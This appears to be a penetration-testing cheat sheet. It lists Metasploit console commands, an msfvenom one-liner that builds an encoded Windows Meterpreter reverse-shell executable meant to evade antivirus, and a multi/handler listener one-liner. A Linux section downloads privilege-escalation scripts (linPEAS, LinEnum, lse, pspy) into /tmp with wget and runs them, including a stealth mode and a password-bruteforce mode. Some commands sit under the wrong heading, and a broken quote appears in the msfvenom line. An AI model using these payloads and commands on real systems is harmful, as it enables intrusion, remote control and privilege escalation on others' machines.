 # Exploitations

## Metasploit

To show all exploits that for a vulnerability
```
grep <vulnerability> show exploits
```

To select an exploit to use
```
use <exploit>
```

To see the current settings for a selected exploit
```
show options
```

To see compatible payloads for a selected exploit
```
show payloads
```

To set the payload for a selected exploit
```
set payload <payload>
```

To set setting for a selected exploit 
```
set <option> <value>
```

To run the exploit
```
exploit
```

One liner to create/generate a payload for windows
```
msfvenom --arch x86 --platform windows --payload windows/meterpreter/reverse_tcp LHOST=<listening_host> LPORT=<listening_port> --bad-chars “\x00” --encoder x86/shikata_ga_nai --iterations 10 --format exe --out /path/
```

One liner start meterpreter
```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"
```

</br>

# Linux Enumeration - Tools

## PEASS - Privilege Escalation Awesome Scripts SUITE

```bash
wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh" -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
```

All checks - deeper system enumeration, but it takes longer to complete:

```bash
/tmp/linpeas.sh -a
```

Superfast & stealth - This will bypass some time consuming checks. In stealth mode Nothing will be written to the disk:

```bash
/tmp/linpeas.sh -s
```

Password - Pass a password that will be used with sudo -l and bruteforcing other users:

```bash
/tmp/linpeas.sh -P
```

## linEnum - High-level summary of the checks/tasks performed

```bash
wget "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh" -O /tmp/LinEnum.sh
chmod +x /tmp/LinEnum.sh
/tmp/LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

Shows interesting information that should help you to privesc:

```bash
/tmp/lse.sh -l1
```

Dump all the information it gathers about the system:

```bash
/tmp/lse.sh -l2
```

## linux-smart-enumeration

```bash
wget "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O /tmp/lse.sh
chmod +x /tmp/lse.sh
/tmp/lse.sh -l1
```

## pspy - unprivileged linux process snooping

### 32 bit

```bash
wget "https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32" -O /tmp/pspy32
chmod +x /tmp/pspy32
/tmp/pspy32 -l1
```

### 64 bit

```bash
wget "https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64" -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64 -l1
```
